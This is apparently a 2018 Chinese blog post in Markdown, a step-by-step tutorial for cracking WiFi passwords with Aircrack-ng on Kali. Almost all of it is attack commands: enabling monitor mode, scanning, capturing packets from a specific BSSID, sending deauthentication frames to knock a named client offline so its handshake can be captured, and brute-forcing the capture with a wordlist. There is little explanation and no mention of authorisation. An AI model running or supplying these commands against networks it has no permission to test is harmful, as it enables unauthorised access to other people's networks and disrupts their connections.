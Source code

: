 ```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music: 18861490
---
```


###支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
###1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

###2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
###3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 44:97:5A:9B:38:8A -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
###如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 44:97:5A:9B:38:8A -c 2C:D9:74:69:B4:85 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)
###5.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap



